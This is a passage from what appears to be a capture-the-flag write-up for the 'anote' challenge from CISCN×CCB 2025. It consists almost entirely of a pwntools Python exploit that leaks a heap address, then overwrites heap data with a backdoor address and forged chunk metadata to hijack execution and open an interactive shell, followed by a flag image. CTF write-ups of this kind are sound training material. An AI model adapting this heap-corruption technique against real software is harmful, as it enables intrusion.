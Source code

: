 ```python
    def edit(idx: int, size: int, buf: bytes):
        sh.sendlineafter(b'ice>>', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'len', str(size).encode())
        sh.sendlineafter(b'content', buf)

    add()
    add()
    heap = show(0)
    backdoor = 0x80489ce
    success(GOLD_TEXT(f"Leak heap: {heap:#x}"))
    edit(0, 0x1c, p32(backdoor) + b'0'*0x10 + p32(0x21) + p32(heap + 8))
    edit(1, 0, b'x')
        
    sh.clean()
    sh.interactive()
    sh.close()
```

{% note default fa-flag %}
![](/assets/ciscnxccb2025/anoteFLAG.png)
{% endnote %}
